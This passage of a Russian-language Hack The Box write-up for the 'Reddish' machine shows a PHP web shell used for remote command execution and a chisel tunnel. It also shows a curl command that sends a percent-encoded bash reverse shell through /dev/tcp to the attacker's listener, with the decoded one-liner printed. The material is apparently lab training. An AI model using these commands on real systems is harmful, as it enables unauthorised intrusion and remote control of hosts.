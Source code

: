 Скрипт отработал успешно, поэтому можно открыть браузер и после перехода по адресу `http://localhost:8890/shell.php?cmd=whoami` тебя будет ждать такой ответ.

![www-web-shell-whoami.png](/assets/images/htb/machines/reddish/www-web-shell-whoami.png)
{:.center-image}

Таким образом, у нас есть RCE в контейнере `172.19.0.3` (будем называть его `www`, так как он сам так представился).

![www-web-shell-hostname.png](/assets/images/htb/machines/reddish/www-web-shell-hostname.png)
{:.center-image}

Раз есть RCE, неплохо было бы получить шелл.

# Докер. Контейнер II: "www"

Неплохо бы, да вот есть одно «но»: хост `www` умеет общаться только с `nodered`, а напрямую связаться с Kali он не может. В таком случае будем создавать очередной туннель (третий по счету) поверх существующего обратного, чтобы через него поймать callback от `www` на Kali. Новый туннель будет прямым (или «локальным»).

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 7001:127.0.0.1:9001 &
```

Что здесь произошло: мы подключились к серверу `10.10.14.19:8000` и вместе с этим проложили туннель, который берет начало в 7001-м порту контейнера `nodered`, а заканчивается в 9001-м порту ВМ Kali. Теперь все, что попадет в интерфейс `172.19.0.4:7001` будет автоматически перенаправлено на машину атакующего по адресу `10.10.14.19:9001`. То есть мы сможем собрать реверс-шелл и в качестве цели (`RHOST:RPORT`) указать контейнер `172.19.0.4:7001`, а отклик придет уже на локальную (`LHOST:LPORT`) тачку `10.10.14.19:9001`. Просто как день!

![network-map-4.png](/assets/images/htb/machines/reddish/network-map-4.png)
{:.center-image}

Сетевая карта. Часть 4: Первый туннель до Kali с nodered
{:.quote}

Я добавил две дополнительные строки в скрипт [pwn-redis.sh](https://github.com/snovvcrash/xakepru/blob/master/htb-reddish/pwn-redis.sh): «отправить шелл» и «запустить слушателя на порт `9001`».

```bash
...
(sleep 0.1; curl -s -X POST -d 'cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.4%2F7001%200%3E%261%27' localhost:8890/shell.php >/dev/null &)
rlwrap nc -lvnp 9001
```

Пейлоад для `curl` закодирован в [Percent-encoding](https://en.wikipedia.org/wiki/Percent-encoding), чтобы не мучаться с «плохими» символами. Вот так он выглядит в «человеческом» виде.

```bash
bash -c 'bash -i >& /dev/tcp/172.19.0.4/7001 0>&1'
```

Теперь в одно действие получаем сессию на `www`.

